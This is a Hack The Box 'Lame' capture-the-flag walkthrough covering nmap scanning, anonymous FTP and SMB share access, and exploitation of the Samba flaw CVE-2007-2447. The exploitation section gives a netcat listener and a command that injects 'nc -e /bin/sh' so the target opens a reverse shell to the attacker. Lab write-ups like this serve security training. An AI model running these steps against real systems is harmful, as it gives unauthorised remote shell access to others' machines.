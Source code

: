 # Lame (HTB, Beginner Track)

## Enumeration

Let’s start to examine the ports and services first,

### NMAP

**command:**

```bash
nmap -Pn -A -T4 [ip-address]
```

**option used:**

| Options | Usage |
| --- | --- |
| -Pn | Treat all hosts as online -- skip host discovery |
| -A | Enable OS detection, version detection, script scanning, and traceroute |
| -T4 | Set timing template (higher is faster) |

![img01.png](Lame%20(HTB,%20Beginner%20Track)%2000795692c37d493dbfc98c2cb1f48983/img01.png)

- Found port **21,22,139,445** are opened and running **vsftpd 2.3.4, OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0), Samba smbd 3.X - 4.X, Samba smbd 3.0.20-Debian** services respectively.

### FTP

- Let’s first try to login into FTP, check whether **anonymous** login attempt works fine or not!

![img02.png](Lame%20(HTB,%20Beginner%20Track)%2000795692c37d493dbfc98c2cb1f48983/img02.png)

- We’ve tried the **anonymous login attempt** on the target, but it seems there isn’t anything available to us.

### SMBCLIENT

- Let’s check the shared folder through **smbclient:**

**command:**

```bash
smbclient -L [ip-address]
```

![img03.png](Lame%20(HTB,%20Beginner%20Track)%2000795692c37d493dbfc98c2cb1f48983/img03.png)

- There are two shared folders we found to be accessible to us.
- Let’s try to access it, without any credentials again:

**NOTE:** *Before accessing file the shared folder of the target make sure that you’ve, desired settings configured in your **/etc/samba/smb.conf** file.*

👉🏼**[for more information](https://wiki.archlinux.org/title/Samba#Protocol_negotiation_failed:_NT_STATUS_INVALID_NETWORK_RESPONSE)**👈🏼

**command:**

```bash
smbclient '\\[ip-address]\tmp' 
```

![img04.png](Lame%20(HTB,%20Beginner%20Track)%2000795692c37d493dbfc98c2cb1f48983/img04.png)

- There is a anonymous login is successful again!

## Exploitation

### ****[CVE-2007-2447](https://www.cvedetails.com/cve/CVE-2007-2447/)****

👉🏼 **[python-exploit](https://github.com/Ziemni/CVE-2007-2447-in-Python/blob/master/smbExploit.py)** 👈🏼

- Download the above script and save it your computer.
- Then run a netcat listener on your terminal:

**command:**

```bash
nc -lvnp 1234
```

| Options | Usage |
| --- | --- |
| l, --listen | listen mode, for inbound connects |
| v, --verbose | verbose (use twice to be more verbose) |
| n, --dont-resolve | numeric-only IP addresses, no DNS |
| p, --local-port=NUM | local port number |
- Now, you can run the script as follows 👇🏼

**command:**

```bash
python3 smbExploit.py 192.168.1.2 'nc -e /bin/sh 192.168.1.1 1234'
```

- And within a moment we’ll have a connection from our target!

![img05.png](Lame%20(HTB,%20Beginner%20Track)%2000795692c37d493dbfc98c2cb1f48983/img05.png)

**DONE!**